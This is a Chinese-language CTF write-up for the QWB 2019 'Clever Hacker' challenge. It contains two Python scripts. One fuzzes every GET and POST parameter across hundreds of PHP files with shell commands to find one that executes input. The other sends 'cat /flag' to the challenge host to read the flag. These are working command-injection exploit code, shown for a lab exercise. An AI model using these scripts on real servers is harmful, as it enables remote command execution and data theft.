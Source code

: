 # \[强网杯 2019]高明的黑客

## \[强网杯 2019]高明的黑客

## 考点

* 爆破脚本书写
* Python正则表达式
* Python多线程

## wp

www.tar.gz下载源码，使用notepad++在src目录中查找system，还是有很多

![](<../.gitbook/assets/image (29) (1).png>)

只能用脚本多线程跑

```php
import os
import re
import requests
import threading

lock = threading.Lock()
path = 'src/'
files = os.listdir(path)
url = 'http://localhost:8888/intru/src/'

def send_req(file):
    f = open('src/'+file)
    ff = f.read()
    lock.acquire()
    f.close()
    lock.release()
    get_pattern = re.compile(r"\$_GET\['\w+'\]")
    get_res = re.findall(get_pattern,ff)
    get_res = list(set(get_res))
    post_pattern = re.compile(r"\$_POST\['\w+'\]")
    post_res = re.findall(post_pattern,ff)
    post_res = list(set(post_res))
    url_test = url + file + '?' + ('=echo "peri0d"&'.join(get_res)).replace("$_GET['",'').replace("']",'') + '=echo "peri0d"'
    data = {}
    for i in post_res:
        data[i[8:-2]] = 'echo "peri0d"'
    response = requests.post(url_test, data=data)
    print(response.text)
    # print(url_test)
    # print(data)
    if "peri0d" in response.text:
        print(file)
        return file
    

#send_req('xk0SzyKwfzw.php')
l = []
for i in files:
    t = threading.Thread(target=send_req, args=(i,))
    t.start()
    l.append(t)
for i in l:
    i.join()
```

得到结果xk0SzyKwfzw.php

![](<../.gitbook/assets/image (16) (1).png>)

再写一个`get_flag`函数，复制粘贴前面的代码，改一下地址和shell

```python
def get_flag(file):
    f = open('src/'+file)
    ff = f.read()
    f.close()
    
    shell = 'cat /flag'
    get_pattern = re.compile(r"\$_GET\['\w+'\]")
    get_res = re.findall(get_pattern,ff)
    get_res = list(set(get_res))
    post_pattern = re.compile(r"\$_POST\['\w+'\]")
    post_res = re.findall(post_pattern,ff)
    post_res = list(set(post_res))
    url_test = 'http://70b853eb-51ee-40c5-a69c-ab1ec94682a8.node4.buuoj.cn:81/' + file + '?' + (f'={shell}&'.join(get_res)).replace("$_GET['",'').replace("']",'') + f'={shell}'
    data = {}
    for i in post_res:
        data[i[8:-2]] = shell
    response = requests.post(url_test, data=data)
    # print(url_test)
    # print(data)
    if "flag" in response.text:
        print(response.text)
        return file
get_flag('xk0SzyKwfzw.php')
```

![](<../.gitbook/assets/image (33) (1).png>)
